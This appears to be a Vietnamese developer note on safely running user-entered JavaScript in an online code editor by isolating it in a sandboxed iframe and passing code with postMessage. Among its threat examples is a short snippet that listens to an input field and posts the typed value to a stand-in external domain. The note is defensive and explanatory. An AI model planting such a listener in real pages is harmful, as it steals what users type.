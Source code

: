 # Execute Code

Phần này mô tả các vấn đề và cách thực hiện run code của user nhập vào textarea.

### Một số vấn đề gặp phải

1. Code của user có thể bị lỗi syntax dẫn đến crash app.

Ví dụ: `console.abc();`

2. User có thể thêm các dòng code để thay đổi cấu trúc DOM, nó cũng có thể gây crash app

Ví dụ: `document.body.innerHTML = ""`;

3. Đoạn code user thêm vào có thể chứa mã độc, nhằm đánh cắp thông tin hoặc các mục đích khác.

Ví dụ:

```
document.querySelector('input').addEventListener('change', event => {
    axios.post('some-domain.com', {
        value: event.target.value
    })
})
```

### Cách khắc phục

Tham khảo các website edit code online như `codesandbox`, `codepen` thì tại component hiển thị code người ta sử dụng một thẻ `iframe` để hiển thị code của user nhập vào.

Thẻ `iframe` tạo ra một document khác bên trong document hiện tại, 2 context này thực thi code javascript độc lập với nhau.

Tuy nhiên, giữa document cha và thẻ iframe vẫn có thể tương tác được với object window của nhau khi thoả 2 điều kiện sau:

1. Thẻ `iframe` có KO có attribute `sanbox` hoặc có giá trị `sanbox="allow-same-origin"`
2. Parent HTML và iframe có chung Domain, Port và Protocol (http hoặc https);

Cách tương tác như sau:

- Trong thẻ `iframe`, sử dụng biến global `parent` để tham chiếu đến window object của document cha.
- Trong document cha, query đến element iframe và access vào thuộc tính `contentWindow` để tham chiếu đến window object của iframe.

Khi sử dụng iframe, các vấn đề ở trên đều được giải quyết bởi vì tất các code Javascript được thực hiện ở iframe và không liên quan đến parent document.

### Các vấn đề khác

- Để iframe có thể nhận được code Javascript từ document cha, sử dụng thuộc tính `srcDocs` của iframe element, đồng thời set giá trị của thuộc tính `sandbox="allow-scripts"`.

- Khi sử dụng thuộc tính `srcDocs` của thẻ iframe để truyền JS, tất cả code sau khi bundle sẽ được đưa vào thuộc tính này và nó có nguy cơ gây lỗi nếu string code bundle quá dài (trường hợp chúng ta import những package có dung lượng lớn).

- Cách truyền code JS vào thẻ iframe là tạo một content HTML với cấu trúc như sau.

```
const html = `
    <script>
        ${code}
    </script>
`
```

Tuy nhiên, trong một số thư viện có thể xuất hiện thẻ đóng mở `<script>...<script>`. Dẫn đến content của biến html sẽ bị chia làm 2, một phần vẫn hiển thị đúng trong thẻ `<script>`, phần còn lại sẽ hiển trị như là html content bên trong body.

Ví dụ: `import ReactDOM from 'react-dom'` --> sẽ gặp lỗi như trên.

**Để xử lý 2 lỗi ở trên, ta phải thay đổi cách tương tác giữa parent document và iframe.**

Mặc dù chúng ta đã thêm thuộc tính `sandbox="allow-scripts"` vào thẻ iframe nhằm mục đích chỉ cho phép tương tác bằng script giữa parent và iframe, tuy nhiên vẫn còn 1 cách khác để có thể tương tác và truyền dữ liệu. Đó là sử dụng `window.postMessage()` function.

Trong thẻ iframe, addEventListener `message`, sau đó từ parent document sử dụng postMessage để truyền code content vào thẻ iframe, đoạn code này ko có thẻ đóng mở script như cách dùng thuộc tính `srcDoc`.
